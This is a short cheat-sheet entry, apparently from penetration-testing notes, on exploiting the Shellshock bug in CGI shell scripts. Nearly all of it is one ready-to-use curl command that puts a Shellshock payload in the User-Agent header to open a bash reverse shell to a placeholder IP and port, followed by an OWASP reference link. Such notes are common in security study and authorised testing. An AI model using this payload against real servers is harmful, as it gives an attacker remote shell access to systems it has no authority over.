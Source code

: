 ### Shellshock
`.sh` files hosted in /cgi-bin may be vulnerable to shellshock

```
curl -H "User-Agent:() { :;};/bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1" <url>/cgi-bin/<.sh script>
```

https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
